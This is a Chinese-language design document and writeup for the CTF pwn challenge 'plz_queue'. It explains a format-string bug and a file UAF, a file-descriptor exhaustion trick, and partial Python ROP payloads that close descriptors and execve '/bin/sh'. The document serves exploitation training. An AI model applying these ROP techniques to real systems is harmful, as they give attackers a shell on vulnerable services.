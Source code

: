 # 赛题设计说明

## 题目信息：

* 题目名称：plz_queue
* 预估难度：中等偏难 （简单/中等偏易/中等偏难/困难）
* 编译命令：gcc plz_queue.c -o pwn -s -fstack-protector -fPIC -pie -Wl,-z,relro -Wl,-z,now

## 题目描述：

> 麻烦排下队哦

## 题目考点：

1. 不在栈上的格式化字符串漏洞
2. 文件描述符数量上限

## 思路简述：

通过栈上的一个二级指针与一级指针修改栈上返回地址


## 题目提示：

1. 栈上的二级指针
2. POW的计算是否可以避免呢?


## 原始 flag 及更新命令：

```shell
    # 原始 flag
    flag{flag_test}
    # ..
    # 更新 flag 命令
    echo 'flag{2ea57420-1316-42fb-b940-52b8b9b58eab}' > /flag
```

## 题目环境：

1. Ubuntu 18.04 LTS
2. xinetd + chroot

## 题目制作过程：

1. 编写 plz_queue.c 代码，详细代码请从 “源码” 文件夹获取，
2. 编译方式在源代码第一行，
3. 编写 xinetd 配置文件，设置好参数，
4. 生成 flag 文件，flag 为 flag{2ea57420-1316-42fb-b940-52b8b9b58eab}
5. 编写 Dockerfile。

注：如果是常规的 pwn 题，直接替换模板 docker 文件夹中的 pwn 以及 flag 文件即可，无需步骤3、4、5

## 题目 writeup：

1. 检查题目保护，发现保护全开
2. IDA发现Fsb漏洞以及file的UAF
![1](img/x1.png)
![2](img/x2.png)
3. 打开1024次以上/dev/urandom导致文件描述符总量达到上限（exp中设置为1536次）
4. 构造恶意的二级指针去修改rbp相对高地址数据造ROP执行gets(&rbp)
```python

```
5. gets(&rbp)写栈再次ROP执行close与syscall_execve
```python
                payload += '/bin/sh\0'+p64(fuck)*2
                payload += p64(pop_rdi)+p64(5)
                payload += p64(pop_rax)+p64(3)
                payload += p64(syscall)
                payload += p64(pop_rdi)+p64(6)
                payload += p64(pop_rax)+p64(3)
                payload += p64(syscall)
                payload += p64(pop_rdi)+p64(retad)
                payload += p64(pop_rsi)+p64(0)
                payload += p64(pop_rdx)+p64(0)
                payload += p64(pop_rax)+p64(0x3b)
                payload += p64(syscall)
```
6. 因为执行syscall对环境变量的check增加，故在gets时修复栈上数据
```python
                payload += p64(0)+p64(pbase+0xa10)
                payload += p64(retad+(0x7ffe6d841420-0x7ffe6d841340))
                payload += p64(pbase+0xa3a)
                payload += p64(retad+(0x7ffe6d841418-0x7ffe6d841340))
                payload += p64(0x1c)+p64(1)
                payload += p64(pname)
```
7. 编写 exp.py ，获取flag，详细代码请从 “exp脚本” 文件夹获取
8. 需注意，因为gets在docker中易受截断符干扰，故此攻击方法成功概率偏低，不在docker中部署时成功概率约0.023，docker中部署时约为0.006.

## 注意事项

1. 如可以不使用docker部署，建议使用socat部署
